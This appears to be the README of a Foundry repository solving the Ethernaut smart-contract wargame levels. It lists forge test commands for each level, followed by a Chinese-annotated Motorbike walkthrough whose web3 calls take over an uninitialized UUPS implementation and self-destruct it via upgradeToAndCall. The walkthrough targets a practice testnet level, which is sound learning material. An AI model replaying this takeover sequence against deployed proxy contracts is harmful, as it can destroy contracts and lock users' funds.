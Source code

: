 ```shell
forge test --match-path ./test/Fallback.t.sol
forge test --match-path ./test/Fallout.t.sol
forge test --match-path ./test/CoinFlip.t.sol
forge test --match-path ./test/Telephone.t.sol
forge test --match-path ./test/Token.t.sol
forge test --match-path ./test/Delegation.t.sol
forge test --match-path ./test/Force.t.sol
forge test --match-path ./test/Vault.t.sol
forge test --match-path ./test/King.t.sol
forge test --match-path ./test/Reentrancy.t.sol
forge test --match-path ./test/Elevator.t.sol
forge test --match-path ./test/Privacy.t.sol
forge test --match-path ./test/GatekeeperOne.t.sol
forge test --match-path ./test/GatekeeperTwo.t.sol
forge test --match-path ./test/NaughtCoin.t.sol
forge test --match-path ./test/Preservation.t.sol
forge test --match-path ./test/Recovery.t.sol
forge test --match-path ./test/MagicNumber.t.sol
forge test --match-path ./test/AlienCodex.t.sol
forge test --match-path ./test/Denial.t.sol
forge test --match-path ./test/Shop.t.sol
forge test --match-path ./test/Dex.t.sol
forge test --match-path ./test/DexTwo.t.sol
forge test --match-path ./test/PuzzleWallet.t.sol
forge test --match-path ./test/Motorbike.t.sol
forge test --match-path ./test/DoubleEntryPoint.t.sol



forge script script/MotorbikeDeploy.s.sol --rpc-url $RPC_URL_LOCAL --broadcast
forge script script/MotorbikeInteract.s.sol --rpc-url $RPC_URL_LOCAL --broadcast

forge install OpenZeppelin/openzeppelin-contracts@v3.4.2 --no-commit (solidity 0.6)
forge install OpenZeppelin/openzeppelin-contracts@v4.8.2 --no-commit (solidity 0.6)
```

Motorbike web 实现(sepolia 网络)

```
获取当前逻辑合约的地址
await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")

0x000000000000000000000000e414f6cb24cf364877fa306b3e488f3204650721
返回的值将为 32 个字节，其中最右边的 20 个字节将是地址。梳理一下，并在其左侧附加 0x。
我们得到 0xe414f6cb24cf364877fa306b3e488f3204650721

let initializeCall = web3.eth.abi.encodeFunctionSignature("initialize()")
let implAddr = "0xe414f6cb24cf364877fa306b3e488f3204650721"
await web3.eth.sendTransaction({from: player, to: implAddr, data: initializeCall})

remix 部署 Destructive
0x788d8efa489aD7f32cA96e2B8e4d4d2aBac0B168

let kill = web3.eth.abi.encodeFunctionSignature("killed()")
let callStr = web3.eth.abi.encodeFunctionCall({ name: 'upgradeToAndCall', type: 'function', inputs: [{ type: 'address', name: 'newImplementation' },{ type: 'bytes', name: 'data' }]}, ["0x788d8efa489aD7f32cA96e2B8e4d4d2aBac0B168",kill]);

await web3.eth.sendTransaction({from: player, to: implAddr, data: callStr})
```

## Foundry

**Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust.**

Foundry consists of:

-   **Forge**: Ethereum testing framework (like Truffle, Hardhat and DappTools).
-   **Cast**: Swiss army knife for interacting with EVM smart contracts, sending transactions and getting chain data.
-   **Anvil**: Local Ethereum node, akin to Ganache, Hardhat Network.
-   **Chisel**: Fast, utilitarian, and verbose solidity REPL.

## Documentation

https://book.getfoundry.sh/

## Usage

### Build

```shell
$ forge build
```

### Test

```shell
$ forge test
```

### Format

```shell
$ forge fmt
```

### Gas Snapshots

```shell
$ forge snapshot
```

### Anvil

```shell
$ anvil
```

### Deploy

```shell
$ forge script script/Counter.s.sol:CounterScript --rpc-url <your_rpc_url> --private-key <your_private_key>
```

### Cast

```shell
$ cast <subcommand>
```

### Help

```shell
$ forge --help
$ anvil --help
$ cast --help
```
